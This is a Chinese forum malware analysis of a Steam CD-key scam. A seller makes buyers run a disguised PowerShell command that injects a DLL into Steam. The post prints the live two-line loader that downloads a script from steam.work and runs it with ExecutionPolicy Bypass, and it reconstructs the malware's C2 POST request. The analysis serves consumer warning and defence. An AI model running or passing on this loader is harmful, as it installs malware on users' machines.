# [PC样本分析] 关于 steam.work 激活码诈骗脚本的分析

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1949495
- 抓取时间: 2026-11-01T23:47:21

结论放在前面：如果买 cdkey 买到让你要输入某个脚本再激活的，那别去管他，立刻退货并举报商家！原因就直接贴我写这个就行...

该商家在使用 Steam 注入病毒假入库来进行诈骗，证据：https://www.52pojie.cn/thread-1949495-1-1.html 请立即退款，我将会向消费者协会说明本店情况！

## 正文

刚刚去买了个 cdkey 准备送给朋友，结果一看发货介绍感觉有点不对劲：



`photo_2024-07-30_12-11-39.jpg` (96.49 KB, 下载次数: 1) · [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI4N3xkNTE4ZmRkNnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes) · 2024-7-30 14:58 上传

啥啊，`irm` `iex` 这不是经典的从网络获取脚本并执行的操作吗，怎么领个激活码还要搞这？

我一开始还以为是自动安装加速器，商家还怪好的捏，直到我激活不了，把这脚本拉下来看了看：



`photo_2024-07-30_12-11-47.jpg` (37.72 KB, 下载次数: 2) · [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI4OHw4NWE4YzFjZnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes) · 2024-7-30 14:58 上传



`PixPin_2024-07-30_12-14-28.png` (53.41 KB, 下载次数: 2) · [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI5MnwxMzY1ZWU4MHwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes) · 2024-7-30 14:58 上传

好家伙 这玩意整了个极其有欺骗性的东西，因为`powershell`的多行注释正好是，正好 HTML 文件的开头是 这鸟人给他改成 就变成 `powershell` 的注释了.. 我都差点没看出来..网页还做了 UA 判断和跳转，真是够阴损

那么真实的代码就只剩两行了：

[PowerShell] 纯文本查看 复制代码


```powershell
irm steam.work/pwsDwFile/new1 -OutFile x.ps1
powershell.exe -ExecutionPolicy Bypass -File x.ps1;
```

看得出来，又是下脚本...我们把这玩意也下下来看一眼：



photo_2024-07-30_12-11-50.jpg (149.06 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzI4OXxiNTkzYjMzOXwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI4OXxiNTkzYjMzOXwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 14:58 上传

我怎么兑换个激活码你还给我注入上 Steam了！有病啊！

那么我们便不得不好奇一下注入的文件里到底干了啥呢，我们下下来拖进静态分析，但是里面几乎啥都没有，只有两个有意思的地方：

1. 把危险函数 `VirtualAlloc` 等 伪装成普通函数：



photo_2024-07-30_12-22-39.jpg (123.71 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzI5MXxmZGE2NDk5ZnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI5MXxmZGE2NDk5ZnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 14:58 上传

2. 里面有 `zlib.inflate` （图里打错了）



photo_2024-07-30_12-11-53.jpg (47.87 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzI5MHw2M2Y0Mjk5N3wxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI5MHw2M2Y0Mjk5N3wxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 14:58 上传

看上去他是在尝试现场解压某种payload来执行啊！我们直接开一个 Windows Sandbox 来动态调试一下：

打开 `x32dbg`，在 `zlib.inflate` 处打断点，很容易就拿到解压出的东西



photo_2024-07-30_02-50-28.jpg (197.52 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjcxMzI5Nnw0NTcyNWZhN3wxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI5Nnw0NTcyNWZhN3wxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 14:59 上传

> `[eax + 0x4 * 3]` -> 解压出缓冲区指针
>
> `[eax + 0x4 * 5]` -> 解压出数据长度

不看不知道，一看 `MZ` 开头，`PE` 格式没跑了，直接一个 `savefile` 把它存下来，拖进 Binary Ninja

这个文件也有点诡异，有三个 `.text` 段里面两个都是空的，还有一个 `XRef` 几乎扫不出来...总之先看一眼 `IAT`：



PixPin_2024-07-30_12-29-47.png (55.74 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=MjcxMzI5NXxlNTllNjMzNXwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI5NXxlNTllNjMzNXwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 14:58 上传

怎么还引用了一个 `winsqlite` 啊，看起来像是打算操作 Steam 的数据库？



PixPin_2024-07-30_12-28-32.png (43.01 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzI5NHxkNDE0YWFlN3wxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI5NHxkNDE0YWFlN3wxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 14:58 上传

这里还有一些十足诡异的找不到引用的函数，看上去是加密的字符串

（接前文）

那么自然我们现在应该给导出的仅有的几个函数打一下断点看看；首当其冲怀疑的就是这个网络函数

直接先在该 dll 加载前打断点，暂停后在 `InternetOpenA` 打断点；发现有反调试检测，用 ScyllaHide Basic 轻松过掉

然后就断下来了，我们来看一眼



PixPin_2024-07-30_21-55-36.png (26.99 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzUwMHxhOGIyZDg5YnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzUwMHxhOGIyZDg5YnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 21:55 上传

直接找到病毒开始请求配置的地方和端点了，大收获啊；但是我们直接访问 `http://api.steam.work/api/integral/vs` ，他是返回 403 Unauthorized 的，看来可能有什么 UA，POST body之类的，继续下断点查一下

在 `InternetOpenA` `InternetConnectA` `HttpOpenRequestA` `HttpSendRequestA`，成功还原整个请求：

```http
HTTP1.1 POST http://api.steam.work/api/integral/vs

Referer: version

user-agent: steam

{"sign":"ckv"}
```



PixPin_2024-07-30_22-36-23.png (59.62 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzUyMXw3MmEzYmY3MnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzUyMXw3MmEzYmY3MnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 22:36 上传

返回值拿到手，只有一串不知道是什么的 hex；我们先再看看其他几个点

`sqlite` 这边下断点以后啥也没有，可能是激活的时候才会操作（我用的 Windows Sandbox，不知道为什么打不开Steam……）

于是转移到一台实机上继续分析。

直接拿它给的虚假激活码来激活，可以直接断在 HTTP 请求点

把请求掏出来看看：



PixPin_2024-07-30_23-29-12.png (44.95 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzUyNnwwYTBjMWY0MHwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzUyNnwwYTBjMWY0MHwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 23:29 上传

看起来是成功了，返回一个 `code` 和一个 `data`；

这个 ID 又是啥？



PixPin_2024-07-30_23-30-43.png (192.87 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzUyN3xhMDE4Y2Q2YXwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzUyN3xhMDE4Y2Q2YXwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 23:30 上传

哦，哈迪斯的 App ID

那么接着调试，在一通奇奇怪怪的网络请求之后，它下下来一个 8k 的文件到 steam 的目录里

`C:\Program Files (x86)\Steam\package\data`



PixPin_2024-07-30_23-49-11.png (53.56 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjcxMzUyOXwxNzA1MzNjY3wxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzUyOXwxNzA1MzNjY3wxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 23:48 上传

这是干啥的呢？看看我们正常的 Steam 这里有什么...居然什么都没有！

那么就说明，这个文件是病毒专用的了；我们直接 `ImHex` 打开



PixPin_2024-07-30_23-57-24.png (41.76 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzUzMnw3MDQ4YTlhMHwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzUzMnw3MDQ4YTlhMHwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 23:57 上传

居然是个数据库！怪不得他要链 `winsqlite`；那这个数据库里有啥？我们丢进查看器：



PixPin_2024-07-30_23-58-59.png (54.97 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjcxMzUzM3w3M2ExYzc5NXwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzUzM3w3M2ExYzc5NXwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-30 23:58 上传

有个 `appid`，和两个不认识的 hex；把键名拿去搜搜看：



PixPin_2024-07-31_00-00-06.png (64.97 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzUzNHw4MzFlMzhlOHwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzUzNHw4MzFlMzhlOHwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-31 00:00 上传

